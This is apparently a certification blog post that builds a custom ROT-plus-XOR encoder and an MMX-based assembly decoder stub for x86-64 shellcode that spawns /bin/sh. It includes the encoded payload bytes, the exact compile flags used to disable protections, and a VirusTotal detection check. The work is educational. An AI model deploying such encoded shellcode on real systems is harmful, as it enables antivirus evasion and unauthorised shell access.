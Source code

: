 ```yaml
---
title: SLAE64 - Assignment 4 - Custom Insertion Encoder
author: fwinsnes
date: 2021-01-25 13:44:00 +0800
categories: [SLAE64]
tags: [assembly, shellcoding]
---
```



#### Introduction

These series of posts starting with the prefix "Assignment" will be created in order to fulfill the requirements of the SLAE64 certification. Today we are going to have a close 
look at a Custom Encoder. 

The fourth assignment from the seven requires the creation of a Custom Encoder, similar to the one shown in the course as the "Insertion Encoder". This should be written in the 
Assembly language, and converting such into [shellcode](https://es.wikipedia.org/wiki/Shellcode). Moreover, it is required that such is tested later on the C format.

##### The Encoder

As for the encoder itself, I have chosen to combine to simple techniques: ROT & XOR encoding. This encoder will:

+ Perform a positive ROT operation "shifting the bytes forward", 24 times.
+ XOR all bytes by 36.

#### The Decoder

The decoder follows an interesting procedure:

+ Performs a negative ROT operation "shifting the bytes backwards", 24 times.
+ XORs all bytes by 36. However, this will be done through the MMX registers.

#### The encoder

```term
#!/usr/bin/python

shellcode = (
"\x48\x31\xc0\x48\x31\xf6\x48\x31\xdb\x50\x48\xbb\x2f\x2f\x62\x69\x6e\x2f\x73\x68\x53\x48\x89\xe7\x50\x48\x89\xe2\x57\x48\x89\xe6\xb0\x3b\x0f\x05"
)

encoded = ""
encoded2 = ""

rot = 24

print 'Encoded shellcode ...'

for x in bytearray(shellcode) :

                                y = x^0x36
                                z = (y + rot)%256

                                encoded += '\\x'
                                encoded += '%02x' % z

                                encoded2 += '0x'
                                encoded2 += '%02x,' % z


print '"' + encoded + '"'

print encoded2

print 'Len: %d' % len(bytearray(shellcode))
```

#### Final code

```term
global _start

_start:

      jmp short master       ; Jumps to function "master".

main:

      pop rbp                ; Pops the value to use when XORing in RBP.

      lea rdi, [rbp + 8]     ; Points to the shellcode.

      xor rcx, rcx           ; Zeroes out RCX.
      mov cl, bytes_length   ; Gives cl the length of the shellcode. This sets a counter.

rot:

      sub byte [rdi], 24     ; Negatively rotates RDI by 24.
      inc rdi                ; Increments RDI.
      loop rot               ; Loops this process.

      lea rdi, [rbp + 8]     ; Points to the shellcode.

      xor rcx, rcx           ; Zeroes out RCX.
      mov cl, 5              ; Gives cl the length of the shellcode. As the following operation will be done from 8-bytes in 8-bytes, it isn't required to specify the complete 
                             ; length of the shellcode.

xor:

       movq mm0, qword [rbp] ; Saves QWORD RBP into MM0.
       movq mm1, qword [rdi] ; Saves QWORD RDI into MM1.

       pxor mm0, mm1         ; XORs MM0 and MM1.

       movq qword [rdi], mm0 ; Saves the value of MM0 (XORed piece of shellcode) into RDI (stores original shellcode).
       add rdi, 8            ; Adds 8 to RDI in order to continue with the process.

       loop xor              ; Loops this process.

       jmp bytes             ; Jumps to the original shellcode.

master:

      call main
      value: db 0x36, 0x36, 0x36, 0x36, 0x36, 0x36, 0x36, 0x36
      bytes: db 0x96,0x1f,0x0e,0x96,0x1f,0xd8,0x96,0x1f,0x05,0x7e,0x96,0xa5,0x31,0x31,0x6c,0x77,0x70,0x31,0x5d,0x76,0x7d,0x96,0xd7,0xe9,0x7e,0x96,0xd7,0xec,0x79,0x96,0xd7,0xe8,0x9e,0x25,0x51,0x4b
      bytes_length equ $-bytes
```

#### EndGame

```term
whitecr0wz@SLAE64:~/assembly/assignments/Assignment_4$ gcc rot-mmx_xor.c -o rot-mmx_xor -fno-stack-protector -z execstack -w 
whitecr0wz@SLAE64:~/assembly/assignments/Assignment_4$ ./rot-mmx_xor 
Shellcode Length:  32
$
```

#### Extra bits

For the sake of curiosity, I chose to submit this file within [VirusTotal.com](http://virustotal.com) and find out the rate of detection. Interestly enough, this caught me off 
guard!

![](/assets/img/SLAE/SLAE64/1.png)

###### Hash: b474e66209c6f09c59b5e33780a1a94c2dce9b82857cff2b0c65eb233bc0508c

### Code

This blog post has been created for completing the requirements of the SecurityTube Linux Assembly Expert certification: [http://securitytube-training.com/online-
courses/securitytube-linux-assembly-expert/](http://securitytube-training.com/online-courses/securitytube-linux-assembly-expert/)

Student ID: SLAE64-27812/PA-27812

You can find all of the used resources within this post [here](https://github.com/whitecr0wz/SLAE/tree/main/SLAE64/Assignment_4).
